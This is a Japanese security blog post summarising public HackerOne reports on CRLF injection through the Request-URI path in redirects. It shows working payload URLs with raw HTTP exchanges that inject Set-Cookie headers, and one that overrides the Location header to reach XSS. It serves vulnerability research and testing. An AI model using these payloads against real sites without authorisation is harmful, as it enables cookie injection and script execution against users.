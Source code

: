 # Request-URIのパスからのCRLFインジェクション

<p class="modest" align="left">Feb 14, 2018</p>

---

ロシアのバグハンターであるSergey Bobrov氏（[@Black2Fan](https://twitter.com/Black2Fan)）が[HackerOneで公開しているレポート](https://hackerone.com/bobrov?sort_type=latest_disclosable_activity_at&filter=type%3Apublic&page=1&range=forever)を読んでいると、私が今まで認識しなかった方法でCRLFインジェクションを検出していた。後学のためにまとめておく。

## パラメータからのCRLFインジェクション

私が今まで行なっていた方法は、パラメータの値がレスポンスヘッダに出力される箇所で、値に改行コードを含めて確認するだけだった。値がSet-CookieヘッダやLocationヘッダに含まれるパラメータを対象に、[RFCでヘッダフィールドの終端として認められている](http://httpwg.org/specs/rfc7230.html#message.robustness) `CRLF`（%0D%0A）と `LF`（%0A）に加え、Firefoxを除く主要ブラウザ<sup id="f1">[¹](#fn1)</sup>で終端として扱われる `CR`（%0D）も含めて確認していた。具体的には以下のような動作である。

hxxp://example.jp/?l=en%0D%0ASet-Cookie:crlf=injection

```http
GET /?l=en%0D%0ASet-Cookie:crlf=injection HTTP/1.1
Host: example.jp
...
```

```http
HTTP/1.1 200 OK
Date: Sun, 11 Feb 2018 00:00:00 JST
Server: Apache
Set-Cookie: lang=en
Set-Cookie:crlf=injection
...
```

## パスからのCRLFインジェクション

Bobrov氏が行なっていたのは、30xリダイレクトが発生する箇所でRequest-URIのパスに改行コードを含め、Locationヘッダの出力を確認する方法だった。レポートのリダイレクト処理に注目すると以下のケースに分けられる。

- HTTPSへのリダイレクト
- 異なるホストへのリダイレクト
- トレイリングスラッシを削除するリダイレクト

各ケースでのCRLFインジェクションについてレポートを参考にまとめていく。

### HTTPSへのリダイレクト

HTTPSのページにHTTPで接続すると、HTTPSへのリダイレクトが発生する箇所でのケースである。その際のパスに改行コードを含めることで、Locationヘッダの出力で改行できる場合がある。以下は[Sucuriへのレポート](https://hackerone.com/reports/144769)を参考にした例である。

hxxp://support.example.net/%23%0DSet-Cookie:crlf=injection

```http
GET /%23%0DSet-Cookie:crlf=injection HTTP/1.1
Host: support.example.net
...
```

```http
HTTP/1.1 301 Moved Permanently
Date: Tue, 14 Jun 2016 19:56:14 GMT
Server: Apache
Location: https://support.example.net/#
Set-Cookie:crlf=injection
...
```

改行コードの手前に `#`（%23）を含めているのは、それ以降がフラグメントとして処理され、Locationヘッダに出力されたからだと考える。パスやクエリは出力しないようにしていた、または改行コードをエスケープして出力していたが、通常サーバに送信されないフラグメントは想定外だったのだろうか。

[Trelloへのレポート](https://hackerone.com/reports/45514)のようにHTTPSからHTTPへのリダイレクトという逆のケースもあった。

### 異なるホストへのリダイレクト

接続したホストから別のホスト、または特定のパスへリダイレクトする箇所でのケースである。以下は[ownCloudへのレポート](https://hackerone.com/reports/154306)を参考にした `api.example.org` から `doc.example.org/api/` へのリダイレクトでの例である。

hxxps://api.example.org/%23%0DSet-Cookie:crlf=injection

```http
GET /%23%0DSet-Cookie:crlf=injection HTTP/1.1
Host: api.example.org
...
```

```http
HTTP/1.1 301 Moved Permanently
Date: Wed, 27 Jul 2016 10:28:01 GMT
Server: Apache
Strict-Transport-Security: max-age=63072000
X-Xss-Protection: 1; mode=block
Location: https://doc.example.org/api/#
Set-Cookie:crlf=injection
...
```

過去に使われていたホストから現在のホストへの変更処理だろう。この他にも[Mail.Ruへのレポート](https://hackerone.com/reports/15492)のような `example.jp` から `example.jp/en/` への言語変更や、[Greenhouse.ioへのレポート](https://hackerone.com/reports/25275)のような `example.jp` から `www.example.jp` へのサブドメインの変更でも検出されている。

### トレイリングスラッシュを削除するリダイレクト

パスの末尾にある `/` を[トレイリングスラッシュ](https://webmasters.googleblog.com/2010/04/to-slash-or-not-to-slash.html)と呼ぶ。このトレイリングスラッシュがある場合は通常ディレクトリを指し、ない場合はコンテンツを指す。サイトによっては `/about/` のようなディレクトリの要求に対して、トレイリングスラッシュを削除して `/about` のようなコンテンツの要求へ変更する場合がある。以下は[Mail.Ruへのレポート](https://hackerone.com/reports/67386)を参考にしたトレイリングスラッシュを削除する際のリダイレクトでの例である。

hxxp://m.my.example.jp/crlftest%0DSet-Cookie:crlf=injection/

```http
GET /crlftest%0DSet-Cookie:crlf=injection/ HTTP/1.1
Host: m.my.example.jp
...
```

```http
HTTP/1.1 301 Moved Permanently
Server: nginx
Date: Sat, 11 Jun 2016 00:00:00 GMT
Content-Type: text/html
Location: http://m.my.example.jp/crlftest
Set-Cookie:crlf=injection
...
```

この例は `crlftest` という存在しないコンテンツを要求したケースだが、存在するコンテンツを要求した場合のみトレイリングスラッシュを削除する箇所もある。これとは逆にトレイリングスラッシュを追加する際にリダイレクトが発生する箇所もある。そのような箇所でもパスから改行コードを挿入できる可能性はある。

## CRLFインジェクションによるLocationヘッダの上書き

Bobrov氏のレポートのなかで[Starbucksへのレポート](https://hackerone.com/reports/192667)だけが、リダイレクトを止めてXSSにつなげていた。リダイレクトを止める方法はブラウザごとに異なるため、レポートではChromeとFirefoxのPoCを示している。以下はFirefoxの例である。

hxxp://stagecafrstore.example.com/%3F%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3A0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E

```http
GET /%3F%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3A0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E HTTP/1.1
Host: stagecafrstore.example.com
...
```

```http
HTTP/1.1 301 Content-moved
Date: Tue, 20 Dec 2016 08:40:11 GMT
Server: WebServer
X-Original-link: /%3F%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3A0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
X-XSS-Protection: 0
Location: //x:1
Content-Type: text/html
Content-Length: 98

<script>alert(document.domain)</script>
Content-Length: 0
X-OneLinkServiceType: onelink.fcgi
...
```

この例では `?`（%3F）と `CRLF`（%0D%0A）の後にLocationヘッダを挿入している点が興味深い。本来はHTTPSのページまたは異なるホストへのLocationヘッダが出力されていたが、CRLFインジェクションによってLocationヘッダを上書きできたのだろう<sup id="f2">[²](#fn2)</sup>。Locationヘッダを上書きしてリダイレクト先に `:1` のような[ブロック対象のポート](https://developer.mozilla.org/en-US/docs/Mozilla/Mozilla_Port_Blocking)を設定することで、リダイレクトを止めてレスポンスボディを表示させている<sup id="f3">[³](#fn3)</sup>。ChromeではLocationヘッダの値を空にすることでリダイレクトを止めていた。Request-URIのパスからのCRLFインジェクションでも、Locationヘッダを上書きできるケースはあるようだ。

## 所感

プログラム言語やフレームワークでの対策によって、CRLFインジェクションは作り込まれにくい脆弱性になったと考えていた。最近の診断でもほとんど見かけることはなかった。しかし、今回取り上げた事例は最近でも検出される場合があり、HackerOneでは他にもレポートが公開されている。Zeronights 2017の「[CRLF and OpenRedirect](https://speakerdeck.com/shikarisenpai/crlf-and-openredirect-for-dummies)」でも、この事例は取り上げられていた。これだけ検出されているのだから、今後バグバウンティの対象になるサイトでも検出されるだろう。スコープ内であれば認定される可能性が高い脆弱性なので狙い目だ。

---

¹ Chrome64、Safari11、Edge41、IE11は `CR` をヘッダフィールドの終端として扱っていた。  
<sup id="fn1">[¹](#f1)</sup> Chrome64、Safari11、Edge41、IE11は `CR` をヘッダフィールドの終端として扱っていた。  
<sup id="fn2">[²](#f2)</sup> 徳丸本のP.195「外部ドメインへのリダイレクト」にあるようなCGI特有の動作だと考える。  
<sup id="fn3">[³](#f3)</sup> はせがわさんが[ポートブロッキングを使う方法](http://d.hatena.ne.jp/hasegawayosuke/20161210/p1)をまとめている。
